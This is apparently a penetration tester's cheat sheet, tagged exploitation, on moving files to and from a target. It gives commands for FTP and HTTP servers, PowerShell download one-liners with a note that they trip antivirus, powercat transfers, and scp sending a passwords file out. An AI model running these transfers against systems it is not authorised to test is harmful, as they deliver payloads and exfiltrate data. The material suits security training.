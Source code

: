 ```yaml
---
category: Uncategorized
tags: []
---
```

#exploitation
# Services to Host Files on your System: 

General Options: 

FTP:

Install pyftpdlib
- pip3 install pyftpdlib

Pure-ftpd
- sudo apt install pure-ftpd
- service pure-ftpd start

Run (-w flag allows anonymous write access)
- Python3 -m pyftpdlib -p 21 -w

Web: 

- Python3 -m http.server 443
- service apache2 start

Powershell: 

Raw (Will get flagged by AV/AMSI): 

- powershell -c (New-Object Net.WebClient).DownloadFile('http://172.21.0.0:port/file', 'output-file'
- powershell -c Invoke-WebRequest -Uri "http://172.21.0.0" -OutFile "C:\path\file"


Use Powercat: 

Send File:
    powercat -c 10.1.1.1 -p 443 -i C:\inputfile
Recieve File:
    powercat -l -p 8000 -of C:\inputfile

Linux: 

scp: 

- scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2

scp through ssh: 

- scp -P 2322 passwords.txt remote_username@172.21.0.2:/remote/directory

scp remote file to local system: 

- scp remote_username@172.21.0.2:/remote/file.txt /local/directory


# Services to allow you to upload files to your system from the target: 

- SimpleHTTPServer Upload: https://gist.github.com/touilleMan/eb02ea40b93e52604938
    